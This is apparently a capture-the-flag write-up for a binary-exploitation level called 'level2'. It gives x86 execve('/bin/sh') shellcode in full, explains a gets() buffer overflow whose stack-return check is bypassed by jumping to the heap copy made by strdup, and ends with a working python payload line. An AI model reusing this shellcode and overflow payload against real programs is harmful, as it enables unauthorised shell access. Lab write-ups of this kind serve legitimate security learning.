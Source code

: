 # level2

shell code:
http://shell-storm.org/shellcode/files/shellcode-575.html

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

We found an exec again. SCP into local to run ghidra.
there is a fn main that calls fn p().

We found a call to gets() again, but this time it is protected by a restriction on our return address, it can't point to any address in the stack since bytes in the stack are in range 0xbf000000 - 0xbffffff, so we cannot overflow there. 

After a lot of searching we realise we can inject gets() into the strdup function along with shellcode to access /bin/sh. 

We add the 76 bytes with shellcode to char local_50[76] + 4 bytes for the return, then add a valid return address. 

21 - bytes shell code
59 - bytes padding
4 - bytes return address (to gets())

    (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2